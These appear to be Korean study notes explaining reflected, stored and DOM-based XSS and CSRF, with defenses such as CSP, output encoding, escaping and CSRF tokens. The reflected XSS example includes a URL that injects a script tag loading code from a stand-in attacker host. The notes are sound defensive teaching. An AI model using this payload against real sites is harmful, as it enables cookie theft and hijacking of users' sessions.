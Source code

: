 # XSS & CSRF

## XSS (Cross-Site-Scripting)
- 사용자를 대상으로 한 공격이다.
- JS를 통해서 의도치않은 동작을 실행시키게 한다.
- 게시판, 웹 메일등에서 발생 할 수 있다.
- Cookie와 같은 사용자의 개인정보를 탈취하기 위해서 사용된다.
  - HTTP-Only-Cookie
  - Secure-Cookie

### 1. Reflected XSS
- **공격자가 제공한 입력값이 서버로 전송 된후, 서버의 처리 이후 클라이언트에게 그대로 반환되며 발생한다.**
- 주로 URL 파라미터를 통한 GET 요청 (with QueryString)을 통해서 발생한다.
- 브라우저 자체에서 차단하는 경우가 많다.
- 사용자에게 악성 스크립트가 포함된 URL을 클릭하게하여, 악성 스크립트를 실행시킨다.
  - Reflect라는 말 그대로 사용자의 입력값 혹은 QueryString(악성스크립트)이 그대로 리턴되고 브라우저에서 실행되서 발생한다.

#### 예시
```html
<!-- 1. 사용자에게 악성스크립트가 포함된 URL을 전송한다.-->
https://trustSite.com?search=<script src="http://attack.com/atack.js"/>

<!-- 2. 서버는 클라이언트의 Input을 검증없이 그대로 리턴하며, 클라이언트는 그대로 브라우저에 렌더링한다. -->
<div class="search__keyword">
  검색어: {response.keyword}
</div>

<!-- 3. 브라우저에 렌더링 된 악성코드는 그대로 실행된다. -->
```

#### 해결책
1. CSP(Content-Security-Policy)
   - 허용된 Resouce만 로드 할 수 있도록 제한한다.
2. 출력값 인코딩
    - Client로 리턴되는 데이터를 인코딩 한다.

### 2. Stored XSS
- 가장 위험한 XSS 공격이다.
- 서버상에 악성 스크립트가 저장된 형태이다.
- SQL Injection 같이, 평문이 아닌 스크립트를 서버에서 검증없이 받을 때 발생한다.
- 서버 (DB)에 저장된 악성스크립트가 그대로 사용자에게 전해지고, 실행되게 된다.
- HTML5에서는 Inner HTML에서의 Scrit실행을 막아두었다.
  - 완벽한 해결책은 아니다.
  - innerHTML 외에, 다른 방식으로의 스크립트 삽입이 가능하다.
  - 이전 버전의 브라우저들은 지원하지 않을 수 있다.

#### 예시
```html
<!--div태그 안의 Text는  -->
<div class="post__description">
  안녕하세요! 오늘의 날씨는 정말 좋네요. 
  <script>/* 악성 코드 */</script> 
  좋은 하루 보내세요!
</div>
```

#### 해결책
1. 입력값 검증 및 정제
   - 필터링, 화이트 리스트 등을 통한 정제
2. 출력값 이스케이핑
   - '<'와 '>'를 각각 '\&lt;'와 '\&gt;'로 변경한다.
3. innerHTML이 아닌 다른 것들 사용 (순전하게 Text로 인식하는 것들)
   - appendChild
   - textContent

### 3. DOM-Based XSS (Dom 기반 XSS
- DOM을 조작하여 악성 스크립트를 실행시키는 방식이다.
- Client단 JavaScript 코드가 취약점을 갖고있는 경우 발생한다.
- **사용자의 입력을 처리하는 과정에서 DOM을 조작하여 악성 스크립트를 실행한다.**
- **Reflected XSS와 같지만 (Client에서 공격자의 input이 그대로 렌더링) Server를 거치지 않는다는 점에서 다르다.**

#### 해결책
1. CSP(Content-Security-Policy)
    - 허용된 Resouce만 로드 할 수 있도록 제한한다.
2. 출력값 인코딩
    - Client로 리턴되는 데이터를 인코딩 한다.



***

## CSRF (Cross-Site-Request-Forgery)
- 사용자가 의도하지 않은채로, 해커의 의도한 행위를 하게되는 것이다.
  - 의도치 않게 서버를 공격한다.
- 서버가 사용자를 신뢰하기 때문에 발생한다.
  - 로그인되어 있는 상태로 서버에 비정상적인 명령을 내리기 때문이다.

### 조건
1. 로그인이 되어있어야 한다.
2. 해커가 제공한 사이트에 접속해야한다.


### 방지책
- Referrer를 통한 도메인 일치 검증 
  - Referrer를 보내지 안흔 사용자에게는 이방법을 사용할 수 없다. (요즘엔 거의 없다.)
- Security Token 사용
  - 요청, 세션 마다 Token을 서버에서 발급하고 Token의 존재유무를 확인한다.
  - 잠재적인 CSRF 위협을 방지한다.